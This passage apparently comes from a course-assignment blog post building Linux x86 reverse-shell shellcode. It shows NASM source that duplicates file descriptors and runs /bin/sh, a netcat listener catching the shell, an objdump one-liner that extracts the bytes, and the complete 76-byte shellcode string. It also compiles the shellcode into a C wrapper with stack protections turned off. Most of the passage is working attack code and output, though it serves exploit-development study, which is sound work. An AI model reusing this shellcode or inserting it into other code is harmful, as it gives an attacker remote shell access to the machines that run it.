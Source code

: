 ```nasm
	mov al, 0x3f		; dup2 (63)
	int 0x80		; exec dup2
	dec ecx			; decrement counter
	jns loop		; jump until SF is set

	; Execute /bin/sh
	
	xor edx, edx		; zero out edx
	push edx		; NULL
	push 0x68732f2f		; "hs//"
	push 0x6e69622f 	; "nib/"
	mov ebx, esp		; point ebx to stack
	mov ecx, edx		; NULL
	mov al, 0xb		; execve
	int 0x80		; execute execve
```

## Testing the Code

We'll quickly compile and test execution, catching the shell with a netcat listener.

```
absolomb@ubuntu:~/SLAE/assignments/2$ ./compile.sh reverse_shell
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
absolomb@ubuntu:~/SLAE/assignments/2$ ./reverse_shell
```
```
absolomb@ubuntu:~/SLAE/assignments/2$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 34028)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Success!

Now to extract the shellcode with objdump.

```
absolomb@ubuntu:~/SLAE/assignments/2$ for i in $(objdump -d reverse_shell |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x6a\x66\x58\x6a\x01\x5b\x31\xc9\x51\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc7\xb0\x66\x5b\x68\x7f\x01\x01\x01\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x57\x89\xe1\x43\xcd\x80\x87\xdf\x6a\x02\x59\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xd1\xb0\x0b\xcd\x80
```

We can put our shellcode in our simple C wrapper program, compile without stack protection, and execute and catch the shell with netcat.

```
absolomb@ubuntu:~/SLAE/assignments/2$ vim shellcode.c 
absolomb@ubuntu:~/SLAE/assignments/2$ gcc shellcode.c -o shellcode -fno-stack-protector -z execstackabsolomb@ubuntu:~/SLAE/assignments/2$ ./shellcode
Shellcode Length:  76
```
